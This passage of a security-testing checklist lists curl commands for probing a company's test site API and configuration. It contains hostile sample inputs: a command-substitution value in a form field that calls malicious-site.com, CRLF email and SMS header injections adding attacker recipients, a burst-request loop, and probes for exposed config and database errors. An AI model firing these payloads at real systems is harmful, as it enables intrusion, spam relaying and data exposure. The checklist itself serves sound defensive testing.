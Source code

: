 ## 🌐 **4. API SECURITY TESTING**

### **Salesforce Integration Testing**
```powershell
# Test Salesforce endpoint without proper authentication
curl -X POST "https://test.kineticev.in/api/salesforce/submit" \
  -d "data=test"

# Test with malformed Salesforce data
curl -X POST "https://test.kineticev.in/api/submit-contact" \
  -d "full_name=$(curl -X POST https://malicious-site.com)" \
  -d "email=test@test.com"
```

### **Email/SMS Service Testing**
```powershell
# Test email injection
curl -X POST "https://test.kineticev.in/api/submit-contact" \
  -d "email=test@test.com%0D%0ABcc:attacker@evil.com"

# Test SMS injection
curl -X POST "https://test.kineticev.in/api/submit-test-ride" \
  -d "phone=1234567890%0D%0ATo:+919999999999"
```

### **Rate Limiting Testing**
```powershell
# Test API rate limits
for i in {1..100}; do
  curl -X POST "https://test.kineticev.in/api/submit-contact" \
    -d "full_name=Test$i" \
    -d "email=test$i@test.com" &
done
```

---

## ⚙️ **5. CONFIGURATION SECURITY AUDIT**

### **Environment Detection Testing**
```powershell
# Test environment detection bypass attempts
curl "https://test.kineticev.in/?debug=true"
curl "https://test.kineticev.in/?env=production"
curl "https://test.kineticev.in/php/config.php?show_config=1"
```

### **Database Connection Testing**
```powershell
# Test database error exposure
curl "https://test.kineticev.in/api/test-db-connection"
curl "https://test.kineticev.in/check-database-health.php"
```
